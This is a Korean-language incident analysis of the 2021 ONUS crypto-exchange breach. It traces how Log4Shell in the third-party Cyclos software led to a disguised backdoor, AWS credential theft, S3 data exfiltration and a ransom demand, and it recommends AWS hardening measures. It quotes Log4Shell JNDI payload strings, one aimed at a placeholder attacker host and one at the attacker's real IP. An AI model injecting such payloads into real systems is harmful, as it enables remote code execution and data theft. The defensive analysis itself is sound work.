


# ONUS 사고 사례 분석

## 1. 개요

**ONUS**는 베트남 최대 암호화폐 거래 플랫폼 중 하나로 iOS, Android 앱을 통해 암호화폐 거래 서비스를 제공하며 베트남, 나이지리아, 필리핀 등에 대규모 사용자 기반을 보유하고 있습니다. 2020년 3월 출시 이후 18개월 만에 급성장한 핀테크 플랫폼입니다.

2021년 12월 ONUS는 **Log4Shell(CVE-2021-44228)**을 악용한 공격의 피해자가 되었습니다. 공격의 진입점은 ONUS가 직접 개발한 시스템이 아니라 결제 소프트웨어로 도입한 **서드파티 솔루션 Cyclos**였습니다.

Cyclos는 전 세계 1500개 이상의 결제 시스템에서 사용되는 POS, 결제 소프트웨어로 로깅 모듈로 취약한 버전의 Log4j(2.14.1)를 사용하고 있었습니다. 공격자는 Cyclos 벤더가 ONUS에 패치 안내를 전달하기도 전에 이미 취약점을 익스플로잇하여 시스템에 침투했고 이후 AWS S3의 과도한 권한 설정이라는 두 번째 실수가 겹치면서 **약 200만 명의 고객 개인정보가 유출**되었습니다.

공격자는 탈취한 데이터를 기반으로 **500만 달러(약 66억 원)의 랜섬을 요구**했으나 ONUS는 이를 거부하고 사용자에게 공개적으로 사건을 알렸습니다. 결국 공격자는 해킹 포럼에 데이터를 공개 판매했습니다.

| **항목** | **내용** |
|---|---|
| 피해 기업 | ONUS (베트남 암호화폐 거래 플랫폼) |
| 사건 발생 | 2021년 12월 |
| 취약점 | CVE-2021-44228 (Log4Shell) |
| 침투 경로 | 서드파티 결제 소프트웨어 Cyclos |
| 피해 규모 | 약 200만 명 고객 데이터 유출 |
| 유출 데이터 | E-KYC 정보, 개인정보, 해시 비밀번호, 거래 내역 등 |
| 랜섬 요구 | $500만 달러 → ONUS 거부 |
| 최종 결과 | 해킹 포럼에 데이터 공개 판매, DB 테이블 395개 복사본 보유 주장 |

---

## 2. 공격 분석

### 2.1 공격 타임라인

| **일시** | **내용** |
|---|---|
| 2021.12.09 | Log4Shell(CVE-2021-44228) PoC 익스플로잇 코드가 GitHub에 공개되었습니다. 공격자들이 인터넷 전체를 대상으로 대규모 취약 서버 스캔을 시작했습니다. |
| 2021.12.11 ~ 13 | 공격자가 ONUS의 Cyclos 서버에서 Log4Shell 익스플로잇에 성공했습니다. 서버에 **kworker** 라는 이름의 백도어를 심어 지속적 접근을 확보했습니다. (리눅스 커널 워커 프로세스로 위장하여 탐지 회피) |
| 2021.12.14 | Cyclos 벤더가 Log4Shell 취약점 패치 공지를 발표하고 ONUS에 패치 안내를 전달했습니다. ONUS가 즉시 패치를 적용했으나 **이미 늦은 상태**였습니다. |
| 2021.12.23 | ONUS의 보안 파트너 CyStack이 시스템 모니터링 중 **비정상적인 활동**을 탐지했습니다. AWS S3 버킷의 데이터가 삭제된 사실을 확인했습니다. CyStack이 즉시 IR 프로토콜을 가동하고 유출된 AWS 자격증명을 비활성화했습니다. |
| 2021.12.24 | 공격자가 텔레그램을 통해 ONUS에 **$500만 달러 랜섬을 요구**했습니다. ONUS가 거부를 결정한 후 사용자에게 사건을 공개(Facebook 비공개 그룹)했습니다. CyStack이 전체 Cyclos 노드 점검 및 백도어 제거 작업에 착수했습니다. |
| 2021.12.25 | 공격자가 해킹 포럼(Raid Forum)에 **약 200만 명의 ONUS 고객 데이터를 공개 판매**했습니다. ONUS DB 테이블 395개의 복사본 보유를 주장했습니다. |
| 2021.12.28 | 보안 연구자 Wjbuboyz가 별도의 S3 설정 오류(임의 파일 읽기 가능)를 추가 제보했습니다. 해당 이슈도 즉시 수정되었습니다. |

### 2.2 공격 프로세스



#### Step 1. 초기 침투: Log4Shell 익스플로잇

Log4Shell은 Apache Log4j 라이브러리의 JNDI(Java Naming and Directory Interface) 조회 기능을 악용한 취약점입니다. 공격자가 로그에 기록되는 특정 문자열(`${jndi:ldap://attacker.com/exploit}`)을 삽입하면 Log4j가 이를 실행 가능한 명령으로 해석하여 공격자 서버에 연결하고 악성 코드를 실행합니다.

CyStack의 접근 로그 분석에 따르면 공격자의 Log4Shell 페이로드가 외부 서버 **45.147.230.219 (포트 82)**로의 연결을 시도했고 이 명령이 성공적으로 실행된 것이 history 커맨드 기록에서 확인되었습니다.

```
공격 페이로드 형태:
${jndi:ldap://45.147.230.219:82/exploit}

→ Cyclos 서버의 Log4j가 해당 주소로 연결
→ 공격자 서버에서 악성 클래스 파일 다운로드 및 실행
→ RCE 달성
```

취약점이 존재한 서버는 "프로그래밍 목적으로만 사용하는 샌드박스 서버"였습니다. ONUS는 이 서버가 격리되어 있다고 인식했으나 설정 오류로 인해 프로덕션 데이터에 접근 가능한 상태였습니다.

#### Step 2. 지속성 확보: kworker 백도어 설치

RCE에 성공한 공격자는 바로 서버에 **백도어 악성코드**를 심었습니다. 이 백도어의 이름은 kworker로 리눅스 커널의 정상 워커 프로세스인 kworker와 동일한 이름을 사용하여 시스템 관리자의 탐지를 회피하도록 설계되었습니다.

CyStack 분석에 따르면 이 백도어는 **go-socks5 라이브러리**를 기반으로 제작된 것으로 추정되며 이번 공격을 위해 특별히 제작된 맞춤형 악성코드일 가능성이 높다고 밝혔습니다. 공격자의 IP는 VPN 서비스 제공업체의 것으로 공격자가 베트남인으로 추정된다는 분석도 포함되었습니다.

#### Step 3. 자격증명 탈취: Cyclos 서버 설정 파일 접근

백도어를 통해 지속적인 접근을 확보한 공격자는 서버 내 설정 파일을 탐색했습니다.

CyStack의 분석에 따르면 공격자는 **Cyclos의 설정 파일**을 읽었으며, 해당 파일 안에 AWS 자격증명이 포함되어 있었습니다.

또한 CyStack은 해당 서버에 **DB를 S3로 주기적으로 백업하는 스크립트**가 존재했으며 이 스크립트 안에 DB 호스트명, 계정, 비밀번호와 백업 SQL 파일이 포함되어 있었다고 밝혔습니다.

결과적으로 공격자가 탈취한 것은 다음과 같습니다:

- **AWS Access Key / Secret Key** (AmazonS3FullAccess 권한)
- **DB 접속 정보** (호스트명, 계정명, 비밀번호)
- **백업 SQL 파일**

#### Step 4. 횡적 이동 및 데이터 탈취: S3 전체 접근

탈취한 AWS 자격증명에는 **AmazonS3FullAccess** 권한이 부여되어 있었습니다. 이는 해당 계정이 모든 S3 버킷에 대해 읽기, 쓰기, 삭제 작업을 수행할 수 있음을 의미합니다. 공격자는 이 권한을 이용해 다음 두 가지를 실행했습니다.

1. 프로덕션 S3 버킷에서 **약 200만 명의 고객 데이터 전량 탈취**
2. 증거 인멸 및 추가 압박을 위해 **S3 버킷 삭제**

탈취된 데이터 항목은 다음과 같습니다:

- 이름, 이메일, 전화번호, 주소
- **E-KYC 데이터** (신분증, 여권, 비디오 셀피 등 금융 신원인증 자료)
- 해시된 비밀번호
- 거래 내역
- 기타 암호화된 정보

#### Step 5. 랜섬 요구 및 데이터 공개



공격자는 데이터 탈취 완료 후 텔레그램을 통해 ONUS에 $500만 달러를 요구했습니다. ONUS CEO Chien Tran은 "투명성과 신뢰를 최우선으로 하는 기업으로서 사용자에게 사건을 알리는 것이 올바른 결정"이라며 랜섬 지불을 거부했습니다. 결국 공격자는 해킹 포럼에 데이터를 공개하며 위협을 실행에 옮겼습니다.

#### 공격 체인 요약

1. Log4shell PoC 공개
2. Cyclos 서버 JNDI 페이로드 주입
3. RCE → kworker 백도어 설치
4. cyclos.properties에서 AWS 자격증명 탈취
5. AmazonS3FullAccess 권한으로 S3 접근
6. 200만명 데이터 탈취 + S3 버킷 삭제
7. 텔레그램으로 $500만 요구
8. ONUS는 거부 → 해킹 포럼에 데이터 공개 판매

---

## 3. 대응 방안

### 3.1 즉각적 사고 대응 (IR) — CyStack의 실제 조치

CyStack이 비정상 활동을 감지한 12월 23일부터 실행한 즉각적 조치들입니다.

**1. 유출된 AWS 자격증명 즉시 비활성화**

- 공격에 사용된 AWS Access Key를 즉시 비활성화하여 추가 접근을 차단했습니다.
- 해당 키에 연결된 모든 활성 세션을 강제 종료했습니다.

**2. 전체 Cyclos 노드 점검 및 백도어 제거**

- 모든 Cyclos 서버에서 kworker 프로세스를 탐색하고 제거했습니다.
- 서버 전수 점검으로 추가 백도어 여부를 확인했습니다.

**3. Log4Shell 취약점 즉시 패치**

- Cyclos 벤더 안내에 따라 취약 버전의 Log4j를 최신 버전(2.17.1)으로 업그레이드했습니다.

### 3.2 보안 개선 권고사항

CyStack이 사후에 ONUS에 권고한 보안 개선 사항과 이를 AWS 서비스로 구현하는 방법입니다.

**1. 서드파티 소프트웨어 공급망 관리**

가장 근본적인 원인은 서드파티 소프트웨어인 Cyclos가 취약한 Log4j를 사용하고 있다는 사실을 ONUS가 인지하지 못했다는 점입니다.

- **SBOM** 도입으로 사용 중인 모든 오픈소스 컴포넌트를 목록화해야 합니다.
- **AWS Inspector**를 통해 EC2 및 컨테이너 이미지 내 취약한 라이브러리를 자동 탐지해야 합니다.

**2. 최소 권한 원칙 적용**

이번 피해의 핵심 원인은 결제 서버에 AmazonS3FullAccess라는 과도한 권한을 부여한 것입니다.

- Cyclos 서버에 필요한 S3 버킷에만 접근 가능하도록 **IAM 정책을 최소화**해야 합니다.
- 예: `s3:GetObject`(파일 읽기 → 다운로드), `s3:PutObject`(파일 쓰기 → 업로드)를 특정 버킷 ARN에만 허용하는 세분화된 정책을 작성해야 합니다.
- **AWS IAM Access Analyzer**로 과도한 권한을 가진 정책을 자동 탐지해야 합니다.
- 서비스 계정에는 **IAM Role**을 사용해야 합니다. (장기 유효한 Access Key 발급 지양)

```json
// 잘못된 정책 (현재 ONUS의 상태)
{
  "Effect": "Allow",
  "Action": "s3:*",
  "Resource": "*"
}

// 올바른 정책 (최소 권한)
{
  "Effect": "Allow",
  "Action": ["s3:GetObject", "s3:PutObject"],
  "Resource": "arn:aws:s3:::onus-cyclos-backup/*"
}
```

**3. 자격증명 하드코딩 제거**

cyclos 서버 설정 파일에 AWS 키와 DB 비밀번호가 평문으로 저장된 것이 탈취를 너무 쉽게 만들었습니다.

**AWS Access Key → IAM Role로 대체**

- EC2에 IAM Role을 붙이면 키 파일 자체가 존재하지 않아 탈취할 것이 없어집니다.
- IAM Access Key도 Lambda를 직접 구현하면 Secrets Manager를 통한 자동 교체가 기술적으로 가능하나 AWS가 기본 지원하는 기능이 아니라 별도 구현이 필요하고 복잡합니다.

**DB 비밀번호 → AWS Secrets Manager**

- DB 비밀번호는 Secrets Manager에 저장하고 애플리케이션 시작 시 API로 동적 로드해야 합니다.
- RDS 연동 시 자동 로테이션으로 주기적 교체가 가능합니다.

**4. S3 버킷 접근 제어 강화**

- 민감한 S3 버킷에 **버킷 정책**으로 특정 IAM Role에서만 접근을 허용해야 합니다.
- **S3 MFA Delete**를 활성화하여 실수 또는 악의적인 버킷 삭제를 방어해야 합니다.
- **S3 Versioning**을 활성화하여 삭제된 데이터를 복구 가능하도록 설정해야 합니다.

**5. 실시간 탐지 및 모니터링 강화**

12월 11~13일에 공격이 발생했지만 탐지는 12월 23일에 이루어졌습니다. **10일의 탐지 공백**이 있었습니다.

- **Amazon GuardDuty**를 활성화하여 비정상적인 S3 대량 접근, IAM 자격증명 오용 패턴을 실시간으로 탐지해야 합니다.
- **AWS CloudTrail**을 활성화하여 모든 AWS API 호출 로그를 S3에 저장하고 사후 포렌식을 지원해야 합니다.

**6. 샌드박스/개발 환경 격리**

프로그래밍 목적 전용 샌드박스 서버가 프로덕션 데이터에 접근 가능했던 구조 자체가 문제였습니다.

- 개발/스테이징/프로덕션 환경을 **별도 AWS 계정**으로 완전 분리해야 합니다. (AWS Organizations 활용)

### 3.3 보안 설계 원칙 요약

| **취약점** | **원인** | **AWS 서비스** |
|---|---|---|
| Log4Shell 미탐지 | 서드파티 라이브러리 관리 부재 | AWS Inspector, SBOM 관리 |
| AmazonS3FullAccess | 최소 권한 원칙 미적용 | IAM Policy, IAM Access Analyzer |
| 자격증명 하드코딩 | 설정 파일 보안 관리 부재 | AWS Secrets Manager |
| 탐지 10일 지연 | 모니터링 부재 | GuardDuty, CloudTrail, CloudWatch |
| 샌드박스-프로덕션 미분리 | 환경 격리 설계 부재 | AWS Organizations |
| S3 버킷 삭제 피해 | 데이터 불변성 미설계 | S3 Versioning, MFA Delete |

ONUS 사건은 단순한 Log4j 취약점 사고가 아닙니다. Log4Shell은 시작일 뿐이고 진짜 피해는 그 뒤의 세 가지 실수인 **서드파티 관리 부재, 과도한 IAM 권한, 자격증명 하드코딩**이 동시에 작동하면서 일어났습니다.

이번 사고를 통해 클라우드 환경에서의 보안은 내가 사용하는 모든 서드파티 컴포넌트, 내가 부여하는 모든 권한, 내가 저장하는 모든 자격증명이 공격 표면이 된다는 것을 알 수 있습니다.

보안은 처음 설계 단계부터 내재되어야 합니다.

---

**참고 자료**

- [BleepingComputer — Fintech firm hit by Log4j hack](https://www.bleepingcomputer.com/news/security/fintech-firm-hit-by-log4j-hack-refuses-to-pay-5-million-ransom/)
- [ISMG BankInfoSecurity — Crypto Platform Suffers Log4j-Related Ransomware Attack](https://www.bankinfosecurity.com/crypto-platform-suffers-log4j-related-ransomware-attack-a-18219)
- [Medium — LOG4J Attack on Cryptocurrency Firm ONUS](https://wget-this.medium.com/log4j-attack-on-cryptocurrency-firm-onus-9c73559faf93)
